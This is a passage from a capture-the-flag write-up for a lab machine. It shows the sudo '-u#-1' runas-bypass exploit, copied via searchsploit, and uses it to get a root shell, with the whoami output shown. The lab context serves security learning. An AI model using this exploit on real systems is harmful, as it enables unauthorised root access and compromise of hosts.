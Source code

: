 `searchsploit -m 47502.py`

```
# CVE : <REDACTED>

'''Check for the user sudo permissions

sudo -l

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT:

sudo -u#-1 /bin/bash

Example :

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#
```

That answers the CVE number for escalation question.

So we can see that we really don't even need the Python script and can just run the command under the EXPLOIT: section.

<br>

## Root

I run the exploit command:

`sudo -u#-1 /bin/bash`

And we get root!

```bash
james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:/tmp# whoami
root
root@agent-sudo:/tmp# hostname
agent-sudo
root@agent-sudo:/tmp#
```
